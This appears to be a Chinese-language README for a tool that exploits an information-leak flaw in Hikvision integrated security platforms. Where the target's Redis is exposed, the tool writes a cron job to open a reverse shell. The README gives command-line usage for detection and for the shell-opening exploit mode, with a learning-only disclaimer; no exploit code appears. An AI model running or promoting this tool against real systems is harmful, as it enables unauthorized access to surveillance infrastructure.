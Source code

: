 # 海康威视综合安防信息泄露工具

## 简介

*该工具用于海康威视信息泄露漏洞的检测，若目标redis对外开放会结合redis写入计划任务反弹shell。*

本工具只做学习交流用，代码开源，请勿用做违法用途。

## 使用

 **参数**

```shell
  -c    check is vuln(default)
  -e    reverse a shell
  -u string
        target url
```

**检测**

```shell
./Hikvision_Info_Leak -u http://xxxx.xx.xxx.xx
```

**利用**

```shell
./Hikvision_Info_Leak -e -u http://xxxx.xx.xxx.xx
```

## 注意


1.加入了自动解密.感谢棱角社区的在线解密功能(https://forum.ywhack.com/decrypt.php)

2.自动解密失败会用到的工具

https://github.com/wafinfo/Hikvision